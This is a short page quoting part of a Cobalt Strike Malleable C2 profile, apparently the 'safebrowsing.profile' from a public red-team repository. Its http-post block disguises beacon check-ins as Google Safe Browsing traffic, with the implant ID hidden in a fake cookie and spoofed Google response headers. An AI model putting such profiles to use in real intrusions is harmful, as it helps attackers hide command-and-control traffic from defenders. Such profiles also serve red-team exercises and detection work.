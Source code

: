 [safebrowsing.profile](https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/normal/safebrowsing.profile)

	http-post {
	    
	    set uri "/safebrowsing/rd/CINnu27nLO8hbHdfgmUtc2ihdmFyEAcY4";
	
	    client {
	        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
	        header "Accept-Language" "en-US,en;q=0.5";
	        header "Accept-Encoding" "gzip, deflate";
	        
	        id {
	            netbios;
	            prepend "U=779b64e1a7ed737a";
	            prepend "PREF=ID=";
	            header "Cookie";
	        }
	        
	        output {
	            print;
	        }
	    }
	
	    server {
	        header "Content-Type" "application/vnd.google.safebrowsing-chunk";
	        header "X-Content-Type-Options" "nosniff";
	        header "Content-Encoding" "gzip";
	        header "X-XSS-Protection" "1; mode=block";
	        header "X-Frame-Options" "SAMEORIGIN";
	        header "Cache-Control" "public,max-age=172800";
	        header "Age" "1222";
	        header "Alternate-Protocol" "80:quic";
	        output {
	            print;
	        }
	    }
	}

![](images2/9.jpg)